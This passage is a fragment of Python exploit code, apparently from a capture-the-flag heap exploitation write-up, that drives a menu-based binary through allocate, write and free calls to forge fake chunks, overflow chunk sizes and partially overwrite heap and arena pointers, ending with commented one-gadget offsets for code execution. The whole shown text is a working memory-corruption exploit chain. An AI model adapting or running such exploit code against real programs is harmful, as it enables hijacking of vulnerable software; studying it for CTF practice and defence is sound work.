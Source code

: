 ```python
    io.sendline('2')
    io.recvuntil("Enter index of chunk :")
    io.sendline(str(idx))
    io.recvuntil("Enter data :")
    io.send(data)

def Free(idx):
    menu()
    io.sendline('3')
    io.recvuntil("Enter index :")
    io.sendline(str(idx))

name = 'A'*20
io.recvuntil("Enter name :")
io.send(name)

Malloc(0x18, 0)
Malloc(0xC8, 1)
Malloc(0x68, 2)

fake =  'A'*0x68
fake += p64(0x61)
Write(1, fake)

Free(1)
Malloc(0xC8, 1)

over =  'A'*0x18
over += '\x71'
Write(0, over)

Malloc(0x68, 3)
Malloc(0x68, 4)
Malloc(0x68, 5)

Free(2)
Free(3)

heap_po = '\x20'
Write(3, heap_po)

arena_po = "\xed\x1a"
Write(1, arena_po)

Malloc(0x68, 3)
Malloc(0x68, 0)
Malloc(0x68, 0)

Free(4)
Write(4, '\x00')

Malloc(0xC8, 6)
Malloc(0x18, 7)

Free(6)
po =  'B'*8
po += "\x00\x1B"
Write(6, po)
Malloc(0xC8, 6)

over =  'C'*0x13
# over += "\x16\x22\xa5"    # 0x45216
# over += "\x6a\x22\xaf"    # 0x4526a
```
